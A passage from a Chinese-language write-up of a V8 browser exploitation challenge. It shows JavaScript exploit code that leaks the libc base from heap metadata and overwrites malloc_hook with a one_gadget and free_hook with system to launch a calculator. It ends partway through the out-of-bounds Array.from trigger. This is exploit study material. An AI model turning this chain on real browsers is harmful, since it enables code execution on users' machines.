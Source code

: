 ```
        break;    
    }
    if(parseInt(bk/0x10000000000)===0x7f)
    {
        console.log("[*]leak unsort bin(bk)");
        console.log(hex(bk));
        break;    
    }
    }
    else if(size&lt;0x20){break;}

    size=parseInt(size/8)*8;  //size要抹掉最后的3bit
    chunk+=size;
}
if(finded!==0)
{    
    libc_base=finded-0x3c3bb8;
    console.log("libc_base="+hex(libc_base));
}
else{
    console.log("Error when leak libc base!Try Again.");
}
```

如果是pwn题，修改malloc_hook为one_gadget就很简单了，可以弹个本地shell（并没有实际作用。。）。这可是浏览器题，至少也要执行一下shellcode，弹个计算器吧。

```
/*malloc_hook*/
malloc_hook=0x3C3B10+libc_base;
one_gadget=0xf0897+libc_base;
wr.write(malloc_hook,one_gadget);
```

发现一种用system弹calculator的方式，将free_hook替换为system，这样在释放binsh的时候就会执行system(“/snap/bin/gnome-calculator)。Mark一下，不过这个也是pwn类型的利用。

```
wr.write(libc_base + 0x3C57A8, libc_base + 0x45380); // free hook

const binsh = new Uint32Array(new ArrayBuffer(0x30));
cmd = [1634628399, 1768042352, 1852256110, 761621871, 1668047203, 1952541813, 29295];
// "/snap/bin/gnome-calculator"
for (var i = 0; i &lt; cmd.length; i++)
    binsh[i] = cmd[i];
```

&lt;br&gt;

一开始想看看能不能用Heap Spary+ROP来执行shellcode，v8的HeapSpray我一直找不到合适的喷射值，就暂时放一放。还是参考大师傅们的利用手法，在栈中写值来控制EIP。

**布置shellcode和ROP**

首先需要为ArbitraryRW增加一个leak功能，相当于实现了一个%DebugPrint。这样就能泄漏shellcode的地址。需要添加的代码如下。

```
let oobArray = [1.1];  //float
let arrays=[];    
+let objs=[];        //for leak                            
let maxSize = 1028 * 8;    
                    //8224    
var a;        
Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ =&gt; ( 
  {
    counter : 0,
    next() {
      let result = 1.1;
    this.counter++;
      if (this.counter &gt; maxSize) {         
```
